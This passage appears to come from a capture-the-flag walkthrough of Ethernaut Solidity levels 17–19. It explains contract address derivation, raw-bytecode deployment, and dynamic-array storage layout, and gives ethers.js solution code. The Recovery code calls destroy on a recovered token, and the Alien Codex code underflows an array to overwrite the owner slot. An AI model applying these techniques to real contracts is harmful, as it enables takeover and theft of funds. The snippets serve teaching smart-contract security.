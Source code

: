 ### 17. Recovery

To solve this challenge, we need to understand how contract addresses are calculated. The challenge uses `new` to create a contract (without providing salt value), which means it is using the `create` method.

The contract address is deterministic, and is only related to deployer address and the `nonce` value (the number of times a contract creates another contract), which in this challenge, would be 1`.

https://ethereum.stackexchange.com/questions/764/do-contracts-also-have-a-nonce
https://stackoverflow.com/questions/76293617/how-to-pre-generate-an-ethereum-contract-adress

In ethers, we can simply use `getCreateAddress()` to calculate the token address.
```js
const tokenAddress = ethers.getCreateAddress({from: challengeAddress, nonce: 1});

const factory = await ethers.getContractFactory("SimpleToken");
const token = factory.attach(tokenAddress);

const [eoa] = await ethers.getSigners();
await token.destroy(await eoa.getAddress());
```

### 18. MagicNumber

We need to deploy a contract the returns 42 when called `whatIsTheMeaningOfLife()`. The contract's bytecode needs to be really small, and this can only be done in raw EVM bytecode.

Read the following post for the detailed solution.

https://medium.com/coinmonks/ethernaut-lvl-19-magicnumber-walkthrough-how-to-deploy-contracts-using-raw-assembly-opcodes-c50edb0f71a2

### 19. Alien Codex

To solve this challenge, we need to understand how the storage layout works for dynamic arrays, and override the `_owner` variable which lies in slot 0.

```sol
// OpenZeppelin Ownable Contract
abstract contract Ownable is Context {
    address private _owner;
    ...
}
```

According to https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays, dynamic arrays are stored in continuously starting from the slot `keccak256(p)` where `p` is the allocated slot in the order of variable declaration (padded to 32 bytes).

So we can first underflow `codex.length`, then calculate the index of slot 0 according to the `codex` initial position.

```js
it("Solves 19-AlienCodex", async function () {
  //...
  await challenge.makeContact();
  await challenge.retract();

  // Array data is stored in keccak256(p), keccak256(p)+1, keccak256(p)+2, ... where p is the allocated slot
  // in the order of variable declaration (padded to 32 bytes).
  // https://docs.soliditylang.org/en/v0.8.23/internals/layout_in_storage.html#mappings-and-dynamic-arrays
  const startingPosition = BigInt(ethers.solidityPackedKeccak256(["uint256"], [1]));
  const delta = 2n**256n - startingPosition;
  const addressBytes32 = ethers.AbiCoder.defaultAbiCoder().encode(["address"], [userAddress]);
  await challenge.revise(delta, addressBytes32);

```